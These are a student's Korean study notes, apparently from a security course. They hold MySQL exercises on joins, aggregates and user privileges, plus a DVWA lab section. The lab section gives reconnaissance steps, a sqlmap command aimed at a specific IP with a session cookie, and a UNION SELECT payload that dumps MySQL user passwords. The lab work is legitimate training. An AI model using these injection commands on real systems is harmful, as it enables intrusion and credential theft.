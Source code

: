 ![[Pasted image 20241016120503.png]]
# 개별 과제
## DB 세팅 스크립트
---
```sql
DROP TABLE IF EXISTS `Student_Info`;
DROP TABLE IF EXISTS `Student_Score`;
DROP TABLE IF EXISTS `Student_Health`;

CREATE TABLE `Student_Info` (
	`S_ID` tinyint UNSIGNED NOT NULL AUTO_INCREMENT ,
	`S_NAME` varchar(20) NOT NULL ,
	`S_ADDR` varchar(20) NOT NULL ,
	`S_AGE` tinyint UNSIGNED NOT NULL ,
	PRIMARY KEY (`S_ID`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8;
CREATE TABLE `Student_Score` (
	`S_ID` tinyint UNSIGNED NOT NULL AUTO_INCREMENT ,
	`S_NETWORK` tinyint UNSIGNED NOT NULL ,
	`S_SERVER` tinyint UNSIGNED NOT NULL ,
	`S_SECURITY` tinyint UNSIGNED NOT NULL ,
	PRIMARY KEY (`S_ID`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8;
CREATE TABLE `Student_Health` (
	`H_ID` tinyint UNSIGNED NOT NULL AUTO_INCREMENT ,
	`S_VISION` float NOT NULL,
	`S_WEIGHT` tinyint UNSIGNED NOT NULL ,
	`S_STATURE` tinyint UNSIGNED NOT NULL ,
	`S_BLOOD_TYPE` char(4) NOT NULL,
	PRIMARY KEY (`H_ID`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8;

INSERT INTO `Student_Info` VALUES (1, 'Gil-Dong', 'Daegu', 28);
INSERT INTO `Student_Info` VALUES (2, 'Young-Gu', 'Busan', 32);
INSERT INTO `Student_Info` VALUES (3, 'Cheol-Su', 'Daegu', 22);
INSERT INTO `Student_Info` VALUES (4, 'Yeong-Hee', 'Daejeon', 28);
INSERT INTO `Student_Info` VALUES (5, 'Sa-Rang', 'Seoul', 26);

INSERT INTO `Student_Score` VALUES (1, 90, 80, 95);
INSERT INTO `Student_Score` VALUES (2, 80, 75, 80);
INSERT INTO `Student_Score` VALUES (3, 85, 95, 75);
INSERT INTO `Student_Score` VALUES (4, 70, 75, 70);
INSERT INTO `Student_Score` VALUES (5, 80, 80, 85);

INSERT INTO `Student_Health` VALUES (1, 1.0, 80, 176, 'A');
INSERT INTO `Student_Health` VALUES (2, 1.2, 65, 164, 'A');
INSERT INTO `Student_Health` VALUES (3, 0.7, 66, 186, 'B-');
INSERT INTO `Student_Health` VALUES (4, 0.2, 77, 177, 'O');
INSERT INTO `Student_Health` VALUES (5, 1.5, 98, 189, 'RH+');
```
![[Pasted image 20241016123137.png]]
![[Pasted image 20241016123204.png]]
![[Pasted image 20241016123220.png]]
## 요구사항 해결
---
### S_AGE를 기준으로 오름차순 정렬
![[Pasted image 20241016123522.png]]
### S_SECURITY를 기준으로 내림차순 정렬
![[Pasted image 20241016123606.png]]

### S_WEIGHT값이 70이상인 것에 대해 오름차순 정렬
![[Pasted image 20241016124016.png]]

### S_NAME union S_SECURITY 데이터 출력
![[Pasted image 20241016125003.png]]
### Student_Info Left join / Right join / inner join > Student_Score
#### Left join
```sql
select Student_Info.S_ID, S_NAME, S_ADDR, S_AGE, S_NETWORK, S_SERVER, S_SECURITY from Student_Info left join Student_Score on Student_Info.S_ID=Student_Score.S_ID;
```
![[Pasted image 20241016134051.png]]
#### Right join
```sql
select Student_Info.S_ID, S_NAME, S_ADDR, S_AGE, S_NETWORK, S_SERVER, S_SECURITY from Student_Info right join Student_Score on Student_Info.S_ID=Student_Score.S_ID;
```
![[Pasted image 20241016134155.png]]
#### Inner join
```sql
select Student_Info.S_ID, S_NAME, S_ADDR, S_AGE, S_NETWORK, S_SERVER, S_SECURITY from Student_Info inner join Student_Score on Student_Info.S_ID=Student_Score.S_ID;
```
![[Pasted image 20241016134247.png]]

### S_NETWORK 점수 합계 구하기
![[Pasted image 20241016131217.png]]

### S_SECURITY 평균 점수 구하기
![[Pasted image 20241016131314.png]]

### S_BLOOD_TYPE을 기준으로 중복 데이터 제거하기
```sql
WITH Ranked_Students AS (
    SELECT *, 
           ROW_NUMBER() OVER (PARTITION BY S_BLOOD_TYPE ORDER BY H_ID) AS RowRank
    FROM Student_Health
)
SELECT *
FROM Ranked_Students
WHERE RowRank = 1;

```
![[Pasted image 20241016132218.png]]

### 5번 학생의 과목 합계와 평균 구하기
```sql
with Result_Student as (
	select * from Student_Score where S_ID = 5
)
select (S_NETWORK + S_SERVER + S_SECURITY) as total_sum, (S_NETWORK + S_SERVER + S_SECURITY) / 3.0 as avg_score from Result_Student;
```
![[Pasted image 20241016133528.png]]

## DVWA
---
> [!Note]
> 공격자의 입장에서 취약점 파악을 위해 정보 수집부터 취약점 공격까지 진행
### 정보 수집
#### nmap-HealthScan
![[Pasted image 20241016140615.png]]

#### dirb
![[Pasted image 20241016140525.png]]

#### nikto-웹 취약점 점검
`/docs/DVWA_v1.3.pdf`
- 서버에서 보관중인 pdf 파일을 발견
- ![[Pasted image 20241016141727.png]]
- 기본 아이디와 패스워드 발견

### sql injection
![[Pasted image 20241016142555.png]]
```
': You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1>SQL 구문에 오류가 있습니다. MySQL 서버 버전에 해당하는 매뉴얼에서 1행의 '"" 근처에서 사용할 수 있는 올바른 구문을 확인하세요
```
- sql 취약점 확인
![[Pasted image 20241016142733.png]]
![[Pasted image 20241016142807.png]]
#### sqlmap - sql injection 취약점 분석
```sh
sqlmap -u "http://221.166.254.70/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=0fblutrqtcgnecdodhm1nqq513; security=low" --random-agent
```
![[Pasted image 20241016152138.png]]

```
' UNION SELECT user, password FROM mysql.user #
```
![[Pasted image 20241016154233.png]]

### zap proxy
![[Pasted image 20241016154201.png]]
# 팀 과제
## 요청 사항
### 사용자 이름과 같은 DB에만 모든 권한 가진다.
- 설정 전
![[Pasted image 20241016155344.png]]
- 설정 후
![[Pasted image 20241016155537.png]]
### 팀 이름과 같은 DBdp select, desc 권한 가진다.
- desc 명령어 사용 권한은 select 권한을 가지면 사용할 수 있다.
![[Pasted image 20241016160324.png]]
### 다른 팀 사용자는 팀 DB에 접속 불가능
- 설정 전
![[Pasted image 20241016161303.png]]
- 설정 후
![[Pasted image 20241016161336.png]]

### Test 계정은 모든 권한
![[Pasted image 20241016161448.png]]
### Test2 계정은 creat, drop 권한(Student_Score)
![[Pasted image 20241016161708.png]]

### Test2 계정 생성 후 삭제
![[Pasted image 20241016161804.png]]
